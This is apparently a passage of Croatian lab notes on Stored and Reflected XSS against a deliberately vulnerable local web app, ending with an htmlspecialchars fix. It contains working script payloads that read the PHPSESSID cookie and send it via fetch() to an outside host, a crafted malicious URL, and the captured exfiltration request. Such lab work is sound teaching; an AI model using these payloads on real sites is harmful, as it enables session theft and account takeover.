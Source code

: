 ```java
request.name = "hacker";
request.message = "pwned <script>alert(document.cookie.split('; ').filter(i => i.startsWith('PHPSESSID='))[0]);</script>";
```

```
PHPSESSID=898jvgcktl8opg08ep8c0dh3q7;
```

Cookie se može i ukrasti tako da ga maliciozan JavaScript kod dojavi udaljenom poslužitelju koji je pod vlasništvom napadača. To omogućuje napadaču pristup ukradenom korisničkom računu, jer ukradeni cookie može dodati ručno u vlastiti preglednik:

```java
request.name = "hacker";
request.message = "pwned <script>fetch('http://public.tel.fer.hr/srs?cookie=' + document.cookie);</script>";
```

```
GET http://public.tel.fer.hr/srs?cookie=PHPSESSID=898jvgcktl8opg08ep8c0dh3q7; security=low
```

Ovakav XSS napad naziva se *Stored* jer se maliciozan JavaScript kod sprema u bazu podataka poslužitelja pa se može izvesti u bilo kojem trenutku. Naprotiv, *Reflected* XSS napad ne dolazi direktno od poslužitelja već se korisnika prevari nekom od tehnika socijalnog inženjeringa kako bi pokrenuo maliciozan JavaScript.

Na poslužitelju vjerojatno postoji implementacija slična ovoj:

```java
return "Hello " + request.name;
```

U konkretnom primjeru za Reflected XSS korisnika se pita da unese svoje ime, a poslužitelj vraća poruku koja sadrži to ime. To ime je moguće predati preko GET parametra URL-a, te na taj način lakovjernog korisnika možemo na neki način prevariti da pokrene URL u kojem se u GET parametru za ime nalazi maliciozan JavaScript kod:

```
http://192.168.56.101/vulnerabilities/xss_r/?name=pwned<script>fetch('http://public.tel.fer.hr/srs?cookie='%2Bdocument.cookie);</script>
```

```
GET http://public.tel.fer.hr/srs?cookie=PHPSESSID=898jvgcktl8opg08ep8c0dh3q7; security=low
```

Bilo kakav XSS napad može se zakrpati sanitizacijom ulaza funkcijom koja pretvara specijalne znakove u odgovarajuće HTML entitete. Na primjer, ukoliko korisnik unese `<script>alert('XSS');</script>` u polje za unos, umjesto da se JavaScript kod pokrene on će biti se pretvoriti u `&lt;script&gt;alert('XSS');&lt;/script&gt;` i tako prikazati kao običan tekst.

```java
// Stored XSS fix
guestbook.add(htmlspecialchars(request.name), htmlspecialchars(request.message));
return guestbook.getAll();
```
